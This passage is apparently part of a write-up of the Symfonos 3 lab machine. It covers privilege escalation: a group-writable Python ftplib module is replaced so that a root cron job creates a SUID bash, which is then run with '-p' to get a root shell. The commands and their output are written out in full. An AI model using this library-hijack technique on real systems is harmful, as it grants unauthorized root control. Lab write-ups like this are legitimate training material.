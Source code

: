 	ftp.cwd('/srv/ftp/')

	def upload():
		filename = '/opt/client/statuscheck.txt'
		ftp.storbinary('STOR '+filename, open(filename, 'rb'))
		ftp.quit()

	upload()
	```
	- `ftplib` module is imported
4. View permissions of `ftplib`
	```
	hades@symfonos3:/srv/ftp$ ls -l /usr/lib/python2.7 | grep ftp
	-rwxrw-r-- 1 root gods  37755 Sep 26  2018 ftplib.py
	-rwxrw-r-- 1 root gods  34438 Jul 19  2019 ftplib.pyc
	hades@symfonos3:/srv/ftp$ 
	```
	- `gods` group have write access
5. Edit `ftplib` to spawn a root shell
	```
	# Make a backup of ftplib.py
	hades@symfonos3:/usr/lib/python2.7$ cp ftplib.py /tmp/ftplib.py.bak
	
	# Create python script to spawn a root shell
	hades@symfonos3:/usr/lib/python2.7$ nano /tmp/ftplib.py # See Screenshot
	
	# Replace malicious python script w/ actual python script
	hades@symfonos3:/tmp$ cp /tmp/ftplib.py /usr/lib/python2.7/ftplib.py
	```
	![](images/Pasted%20image%2020220204153109.png)
6. Wait for cronjob to execute
	```
	hades@symfonos3:/tmp$ ls -l
	total 4988
	-rw-r--r-- 1 hades    hades         76 Feb  4 00:20 ftplib.py
	-rwxr--r-- 1 hades    hades      37755 Feb  4 00:17 ftplib.py.bak
	-rw-r--r-- 1 hades    hades     113360 Feb  3 23:42 hades.out
	-rw-r--r-- 1 cerberus cerberus  113874 Feb  3 22:39 linpeas.out
	-rwxrwxrwx 1 cerberus cerberus  762836 Feb  3 22:38 linpeas.sh
	-rwxr-xr-x 1 cerberus cerberus 3078592 Feb  3 23:33 pspy64
	-rwsr-xr-x 1 root     root      975488 Feb  4 00:24 rootbash # Rootshell
	drwx------ 3 root     root        4096 Feb  3 21:36 systemd-private-32c5effdfe964eecbf53b94cec555765-apache2.service-CbKte3
	drwx------ 3 root     root        4096 Feb  3 21:36 systemd-private-32c5effdfe964eecbf53b94cec555765-systemd-timesyncd.service-8gPZoY
	-rw-r--r-- 1 hades    hades          0 Feb  4 00:18 test
	hades@symfonos3:/tmp$ 
	```
7. Obtain root shell
	```
	hades@symfonos3:/tmp$ /tmp/rootbash -p
	```